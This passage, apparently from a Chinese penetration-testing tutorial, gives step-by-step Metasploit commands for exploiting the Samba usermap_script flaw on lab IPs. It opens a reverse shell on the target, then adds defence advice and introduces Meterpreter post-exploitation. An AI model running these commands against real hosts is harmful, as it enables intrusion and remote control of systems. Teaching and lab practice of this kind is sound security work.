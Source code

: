 第三步，查询 Samba 的漏洞利用模块，并选择合适的漏洞利用模块。

*   search samba
    

> Samba 是在 Linux 和 UNIX 系统上实现 SMB（Server Message Block，信息服务块）协议的一款免费软件。SMB 是一种在局域网上共享文件和打印机的通信协议，它在局域网内使用 Linux 和 Windows 系统的机器之间提供文件及打印机等资源的共享服务。

![](https://mmbiz.qpic.cn/mmbiz_png/0RFmxdZEDRNUxpPHicL2yuT72bmBzgtgKgaVtibFfgvTAicXc4E7Ku6ia3cfia6TyVGCrroyN8SES5HMofjF8RrMQ5A/640?wx_fmt=png)

第四步，利用漏洞模块。  
在 Samba 服务返回的漏洞利用模块列表中，我们选择 “Excellent” 最杰出且时间较新的漏洞，从而提高渗透成功率。

*   use exploit/multi/samba/usermap_script
    

![](https://mmbiz.qpic.cn/mmbiz_png/0RFmxdZEDRNUxpPHicL2yuT72bmBzgtgKY9T7CfsJVrRic2FnUDYicXzUGQVd1lLHtTmJdhoIrEvWHKiaw4PnB0ugA/640?wx_fmt=png)

第五步，查看该漏洞利用模块可供选择的攻击载荷模块。  
注意，因为目标是 Linux 机器，一定要选择 Linux 的攻击载荷。本文主要是回顾 MSF 漏洞攻击流程，后面会详细介绍真实的漏洞利用案例。

*   set payload cmd/unix/reverse
    

![](https://mmbiz.qpic.cn/mmbiz_png/0RFmxdZEDRNUxpPHicL2yuT72bmBzgtgKMyHPUpdhSAUAfHJWLc4u5UF6lIqLUwOwhaAV7QLBVk1iaG8aLibfDrjQ/640?wx_fmt=png)

第六步，设置漏洞利用信息。

*   受害主机 IP：set RHOST 192.168.44.135
    
*   攻击主机 IP：set LHOST 192.168.44.138
    
*   攻击端口：set RPORT 445
    

![](https://mmbiz.qpic.cn/mmbiz_png/0RFmxdZEDRNUxpPHicL2yuT72bmBzgtgK0Lw002aQ9hdY0yoh4HyGGaX5ibAxns7aYdTET7rRQKFkiby9adznibWtA/640?wx_fmt=png)

第七步，输入攻击命令 exploit 或 run。

![](https://mmbiz.qpic.cn/mmbiz_png/0RFmxdZEDRNUxpPHicL2yuT72bmBzgtgKWhxHFmvKpyicTibVscu4SMwficHsmKAOOhpkChL12U96cJhOj6cK6Fg5A/640?wx_fmt=png)

MSF 发动攻击成功后会获取目标主机 Shell，可以看到攻击主机和目标主机之间建立了 Shell 连接。同时可能会出现错误 “Exploit completed, but no session was created”，需要注意目标主机版本信息，选择对应的攻击载荷及漏洞利用模块。建议读者多尝试各种 Exploit 和 Payload 的组合。

![](https://mmbiz.qpic.cn/mmbiz_png/0RFmxdZEDRNUxpPHicL2yuT72bmBzgtgK7n3lH1IgB4ibVOHC85Ud4Og0ShoicgCnMn3yFjM9dXFVGkJv8FIP9ZVg/640?wx_fmt=png)

防御方法：

*   Samba 服务漏洞发生在 Samba3.0.20-25 版本，当使用非默认用户名映射脚本配置时，通过指定一个用户名包含 Shell 元字符，攻击者可以执行任意命令。建议将其升级到可防御的版本。
    
*   SMB 局域网上共享文件和打印机的通信协议会出现各种漏洞，建议关闭相关的端口及防火墙设置，即使修补最新漏洞。
    

二. 后渗透攻击之信息收集
=============

**成功对目标机攻击渗透后还可以做什么呢？**  
Metasploit 提供了一个非常强大的后渗透工具—— `Meterpreter`，该工具具有多重功能，使后续入侵变得更容易，获取目标机的 Meterpreter Shell 后，就进入了 Metasploit 最精彩的后渗透利用节点，后期渗透模块有 200 多个。
